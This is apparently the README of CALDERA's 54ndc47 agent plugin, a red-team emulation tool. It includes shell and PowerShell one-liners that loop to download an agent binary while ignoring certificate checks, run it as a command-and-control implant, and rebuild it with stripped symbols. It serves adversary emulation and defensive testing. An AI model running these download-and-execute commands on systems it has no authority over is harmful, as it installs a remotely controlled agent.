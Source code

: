 # 54ndc47

This plugin contains:
* A custom in-memory agent, with variants for Windows, Linux and MacOSX
* API endpoints for the agent to communicate to CALDERA over HTTPS

## Quick start

Start the agent on a Linux or OSX box with the bash command below
```
while true; do curl -sk -X POST -H 'file:sandcat' https://localhost:8888/file/download > /tmp/sandcat && chmod +x /tmp/sandcat && /tmp/sandcat https://localhost:8888 my_group; sleep 60; done
```

Similarly, you can start the agent on Windows machine with the following:
```
while($true) {[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$url="https://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("file","sandcat.exe");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe https://localhost:8888 my_group; sleep 60}```
```

## Updates

Make a change to the sandcat.go code? Run one of the following to recompile, then put the resulting sandcat file in the
stockpile plugin payloads directory
```
GOOS=windows go build -ldflags="-s -w" sandcat.go
GOOS=linux go build -ldflags="-s -w" sandcat.go
GOOS=darwin go build -ldflags="-s -w" sandcat.go
```